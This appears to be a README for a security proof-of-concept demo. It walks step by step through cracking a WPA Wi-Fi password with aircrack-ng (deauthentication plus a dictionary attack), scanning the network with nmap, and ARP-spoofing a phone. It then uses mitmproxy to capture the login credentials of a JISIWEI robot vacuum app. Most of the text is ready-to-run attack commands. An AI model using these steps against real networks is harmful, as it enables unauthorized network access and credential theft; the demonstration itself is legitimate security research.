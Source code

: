 # HOW TO DEMO

## Setup
A computer with these tools have to be fixed:
- **Android Smartphone**, with the JISIWEI application installed. iOS app can be found here: https://apps.apple.com/us/app/极思维机器人/id937665306 and the APK file for the Android app is found in this repository.
- **USB cable**, for connecting smarphone to PC
- **Aircrack-ng**, for cracking the wifi-password
- **nmap**, used for finding devices in network
- **arpspoof**, needed for transparant proxy
- **mitmproxy**, proxy used for looking at HTTP packets
- **Wireless Network Adapter**, needed for cracking the wifi and connecting to wifi
- **Wireless Router**, with relatively easy password for dictionary attack
- **JISIWEI Vacuum Cleaner Robot**

The computer **Dell OptiPlex 7070** should have everything installed. If you use the **TP-Link High-Gain 150Mbps** wireless adapter, you won't have to install any necessary drivers.

## Step 1
Use Aircrack-ng with the wireless network adapter to crack the password to the router.

But first we have to set the wireless adapter to monitor mode, Either run the script **monitor_mode.sh** or do the following:

```bash
airmon-ng check kill
rfkill unblock all
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

We can then check what networks are available in the area:

```bash
airodump-ng wlan0
```

Take the BSSID and channel from the WIFI we will hack and do the following:
```bash
airodump-ng -c [channel for wifi] --bssid [BSSID for wifi] -w psk wlan0
```
We will now wait on a WPA handshake, we could make this process faster by taking a BSSID of a host that is connected to the wifi.
Easiest way to accomplish this is by having your smartphone connected to the wifi.

```bash
aireplay-ng -0 0 -a [BSSID of wifi] -c [BSSID of host] wlan0
```

When we have the handshake you can terminate the previous programs. 

Now use aircrack-ng with a password list and get the password.

```bash
aircrack-ng -w rockyou.txt -b [BSSID of wifi] psk*.cap
```

Now you can set the mode for the wireless adapter to Auto and then login to the wifi. Either run the script auto_mode.sh or do the following:

```bash
systemctl start NetworkManager
ifconfig wlan0 down
iwconfig wlan0 mode Auto
ifconfig wlan0 up
```

## Step 2
Login to the wifi.

Use Nmap to see the devices in the network.
```bash
nmap -sn 192.168.1.127/24
```
Check ports on all the devices found in the network. We will need the router and a phone.


## Step 3
Either run the script **spoof.sh** or do all the steps down below.

First we will setup port forwarding before using arpspoof and mitmproxy:

```bash
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

Then open make sure to have three terminals opened and each command in separate terminals:

```bash
arpspoof -i wlan0 -t [PHONE_IP] [ROUTER_IP]
arpspoof -i wlan0 -t [ROUTER_IP] [PHONE_IP] 
```

Start mitmproxy in transparent mode in the third terminal and wait till someone logs in to the robot on the same network.

```bash
mitmproxy --mode transparent --showhost
```

Use the smartphone and log in to the JISIWEI application while on the same network.

Use the credentials:

username: hackmanhacker8@gmail.com

password: proofofconcept

When you have logged in you can see the credentials in the HTTP request. Meaning that the attacker now has access to those credentials and is now able to login to the app and controll the vacuum cleaner robot.

## Step 4

Login to the application using the smartphone showing that it is the same credentials and use the functions of the application.
The attacker could then login whenever they pleases without being in the network.
Using an android device you could display the screen of the phone on a the bigger screen. The "USB-Debug" has to be allowd, which can be found in the developer settings on the smarthphone. Use the following tool: 
```bash
srcpcopy 
```